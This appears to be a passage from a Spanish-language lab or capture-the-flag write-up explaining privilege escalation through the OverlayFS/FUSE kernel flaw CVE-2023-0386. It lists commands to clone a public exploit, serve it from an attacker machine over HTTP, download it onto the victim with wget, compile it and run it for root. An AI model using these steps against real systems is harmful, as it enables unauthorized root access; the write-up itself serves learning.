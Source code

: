 ### Explicación

*En resumen dice que en versiones del kernel anteriores a la `6.2`, en un mount del tipo overlay al copiar un archivo desde la montura `overlay` al directorio `upper` no comprueba si el propietario de ese archivo es de la máquina actual o no, por ello si pasamos un archivo con `uid=0` (User ID) aunque el root de la máquina no sea el propietario, se copiará a `upper` con el root de la máquina real como propietario. Para explotar esto haremos un sctipt con el bit de `suid` (que permite que se pueda ejecutar código como el usuario dueño del script)*

*Para crear un archivo con `uid=0` sin ser root, hay que hacer uso de un sistema de archivos virtual como un **FUSE**. Con este podremos simular que un archivo tiene un `uid=0` y un `gid=0` (Group ID).*

*Para entender esto mejor, sería recomendable buscar información sobre que es y como funcionan OverlayFS y FUSE*

---

```
uname -r

5.15.70-051570-generic
```

La versión del kernel es menor que `6.2` por lo que podemos intentar explotar la vulnerabilidad. Vamos a clonarnos un exploit de **GitHub**.

```
git clone https://github.com/sxlmnwb/CVE-2023-0386
```

Para pasarlo a la máquina víctima vamos primero a comprimirlo en zip.

```
zip -r cve.zip CVE-2023-0386
```

Iniciamos un servidor http en python por el puerto 80.

```
python3 -m http.server 80
```

Y nos lo descargamos en la máquina víctima, lo descomprimimos y lo compilamos.

```
wget 10.10.14.48/cve.zip
unzip cve.zip
cd CVE-2023-0386
make all
```

Como se explica en el `README.md` ejecutamos el `fuse` en segundo plano (con el `&` al final) y luego `exp`

```
./fuse ./ovlcap/lower ./gc &
./exp
```
